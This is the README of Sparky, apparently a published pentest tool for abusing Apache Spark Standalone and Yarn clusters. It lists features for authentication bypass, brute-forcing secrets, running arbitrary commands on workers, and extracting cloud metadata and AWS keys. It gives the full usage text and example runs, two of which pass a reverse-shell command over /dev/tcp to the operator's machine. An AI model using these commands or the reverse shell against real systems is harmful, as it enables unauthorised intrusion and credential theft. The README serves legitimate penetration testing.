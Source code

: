 # Sparky

Sparky is a tool to easily abuse and pentest a Spark server in Standalone mode. (Some features work on a Yarn cluster as well)

## Features

* Get general information about the Spark cluster, from HTTP Web interface, REST API and through internal APIs
  * Spark version
  * Number of workers, CPU cores, memory
  * List of applications
* Execute arbitrary code on Spark workers (through a normal task or through the REST API)
* Explore temporary files and Jars used by other applications
* Bruteforce Spark authentication
* Bypass authentication on a Spark Standalone master (as of 2.4.4)
* Dump metadata and user data attached to workers in a Cloud environment



## Usage

```sh
          ____              __
         / __/__  ___ _____/ /_\ \   /
        _\ \/ _ \/ _ `/ __/  '_/\ ` /
       /___/ .__/\_,_/_/ /_/\_\ /  /
          /_/                  / /
                              //
                             /

       A tool to pentest Spark clusters
                        @uthor: @ayoul3

Sparky: a tool to pentest Spark clusters

positional arguments:
  spark_master          The master node of a Spark cluster host:port. If no
                        port is provided, default to 7077
  driver_ip             Local IP to bind to for communicating with spark
                        workers.

optional arguments:
  -h, --help            show this help message and exit

General:
  -i, --info            Check REST API, HTTP interface, list executor nodes,
                        version, applications if possible
  -A APPNAME, --appname APPNAME
                        Name of the app as it will appear in the spark logs
  -U USERNAME, --username USERNAME
                        Name of the user as it will appear in the spark logs
  -S SECRET, --secret SECRET
                        Secret to authenticate to Spark master when SASL
                        authentication is required
  -P PYBINARY, --py PYBINARY
                        Python binary to execute worker commands. Can be full
                        path. Version must match the binary used to execute
                        this tool.
  -D DRIVERPORT, --driver-port DRIVERPORT
                        Port to bind to on the computer to receive
                        communication from worker nodes. Default: 8080
  -B BLOCKMANAGERPORT, --blockManager-port BLOCKMANAGERPORT
                        Port to bind to on the computer to receive block data
                        from worker nodes. Default: 8443
  -f, --list-files      Gather list of files (jars, py, etc.) submitted to a
                        worker - usually contains sensitive information
  -k, --search          Search for patterns in files submitted to a worker.
                        Default Patterns hardcoded in utils/searchPass.py
  -e EXTENSION, --extension EXTENSION
                        Performs list and search operations on particular
                        extensions of files submitted to a worker: *.txt,
                        *.jar, *.py. Default: *
  -y, --yarn            Submits the spark application to a Yarn cluster
  -d HDFS, --hdfs HDFS  Full address of the HDFS cluster (host:ip)
  -r RESTPORT, --rest-port RESTPORT
                        Use this port to contact the REST API (default: 6066)
  -t HTTPPORT, --http-port HTTPPORT
                        Use this port to contact the HTTP master web page
                        (default: 8088)
  -q, --quiet           Hide the cool ascii art

Command execution:
  -c CMD, --cmd CMD     Execute a command on one or multiple worker nodes
  -s SCRIPT, --script SCRIPT
                        Execute a bash script on one or multiple worker nodes
  -b, --blind           Bypass authentication/encryption and blindly execute a
                        command on a random worker node
  -m MAXMEM, --max-memory MAXMEM
                        Maximum Heap memory allowed for the worker to make it
                        crash and execute code. Usually varies between 1 and
                        10 (MB) Use with "-b" option. Default: 2
  -n NUMWOKERS, --num-workers NUMWOKERS
                        Number of workers to execute a command/search on.
                        Default: 1
  -w [RESTJARURL], --rest-exec [RESTJARURL]
                        if empty, execute a system command (-c or -s) on a
                        random worker using OnOutOfMemoryError trick. You can
                        provide a legitimate jar file to execute instead.
                        Format: FULL_JAR_URL::MAIN_Class
  -x BINPATH, --runtime BINPATH
                        Shell binary to execute commands and scripts on
                        workers. Default:bash. Examples : sh, bash, zsh, ksh
  -a, --scala           Submit a pure Scala JAR file instead of a Python
                        wrapped Jar file.

Cloud environment (AWS, DigitalOcean):
  -u, --user-data       Gather userdata or custom data information
  -g, --meta-data       Gather metadata information from the cloud provider
  -p, --private-key     Extracts AWS private key and session token if a role
                        is attached to the instance (AWS only)
```
## Prerequisites
### Installation
Sparky is a wrapper of the official Pyspark tool. Therefore you need a valid Java 8 environment as well. Sparky supports both Python 2.7 and Python 3.x.
```sh
git clone https://github.com/ayoul3/sparky && cd sparky
pip --no-cahe-dir install -r requirements.txt
sudo apt install -y openjdk-8-jdk
export JAVA_HOME=/usr/lib/jvm/java-8-openjdk-amd64/

python sparky.py <spark_ip> <computer_ip> -i
``` 
### Python Environment
The version of Python used to execute Sparky must match the default version of Python on the Worker node. Otherwise you will get the following exception:
```
Exception: Python in worker has different version 3.6 than that in driver 2.7, PySpark cannot run with different minor versions.Please check environment variables PYSPARK_PYTHON and PYSPARK_DRIVER_PYTHON are correctly set.
```
Try running sparky with a python version 3.6 or adding the flag -P python2 or executing a Scala payload (--scala)
 
### Network
Sparky binds to two ports 8080 and 8443 that need to be reachable from the Workers executing the code. Otherwise the job will get stuck at the following line:
```

[Stage 0:>                                            (0 + 0) / 10]
```

## Examples
### Code execution 1
Executing a command line provided that the network and python environment requirements check out.
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "whoami"

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Code execution 2
This time using Python 3 and a script file
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -s "cmd.sh" -P python3

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Code execution 3
This time using scala code
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "whoami" --scala 
[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Initializing local Spark driver...This can take a little while
[*] Found a maximum of 1 workers that can be allocated
[*] Executing command on 1 workers
[+] Output of worker 0
hadoop
```
### Blind code execution 4
Executing a JAR file using REST API on port 6066
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "bash -i >& /dev/tcp/192.168.1.22/443 0>&1" -w https://www.domain.com/file.jar

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[+] Command successfully executed on a random worker
```
Omitting the JAR URL works as well, but uses a different trigger to execute code. See OnOutofMemory below

### Blind code execution 5 - Authentication bypass
Blind code execution using OnOutOfMemory parameter to trigger code execution. Need to adjust the "-m" parameter which refers to maximum heap memory allocated by JVM.
Spark master is listening at 192.168.1.30:7077. Your computer is 192.168.1.22
```sh
python sparky.py 192.168.1.30 192.168.1.22 -c "bash -i >& /dev/tcp/192.168.1.22/443 0>&1" -b

[*] Testing target to confirm a spark master is running on 192.168.1.30:7077
[+] Spark master confirmed at 192.168.1.30:7077
[*] Performing blind command execution on workers
[*] Executing command on a random worker
[+] Positive response from the Master
[*] If cmd failed, adjust the -m param to make sure to case an out of memory error
```

## Licence
Sparky is licenced under GPLv3